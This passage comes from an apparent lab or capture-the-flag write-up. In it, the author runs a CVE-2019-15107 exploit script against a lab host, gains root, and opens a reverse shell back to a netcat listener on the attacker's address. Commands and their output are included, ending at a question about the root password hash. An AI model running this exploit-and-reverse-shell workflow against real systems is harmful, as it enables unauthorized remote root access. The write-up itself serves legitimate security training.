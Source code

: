 After installation, we can run the exploit on the target!

```
./CVE-2019-15107.py 10.200.72.200
```

The exploit gives us a shell with root on the target, I went and created a reverse shell with it.

```
# whoami
root
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# shell

[*] Starting the reverse shell process
[*] For UNIX targets only!
[*] Use 'exit' to return to the pseudoshell at any time
Please enter the IP address for the shell: Tun0-IP
Please enter the port number for the shell: 5555

[*] Start a netcat listener in a new window (nc -lvnp 5555) then press enter.

[+] You should now have a reverse shell on the target
[*] If this is not the case, please check your IP and chosen port
If these are correct then there is likely a firewall preventing the reverse connection. Try choosing a well-known port such as 443 or 53                                          
# shell

[*] Starting the reverse shell process
[*] For UNIX targets only!
[*] Use 'exit' to return to the pseudoshell at any time
Please enter the IP address for the shell: 10.50.73.55
Please enter the port number for the shell: 5556

[*] Start a netcat listener in a new window (nc -lvnp 5556) then press enter.

[+] You should now have a reverse shell on the target
[*] If this is not the case, please check your IP and chosen port
If these are correct then there is likely a firewall preventing the reverse connection. Try choosing a well-known port such as 443 or 53                                          
```

```
listening on [any] 5556 ...
connect to [Tun0-IP] from (UNKNOWN) [10.200.72.200] 35108
sh: cannot set terminal process group (1906): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4# whoami
whoami
root
```

**1) What is the root user's password hash?**
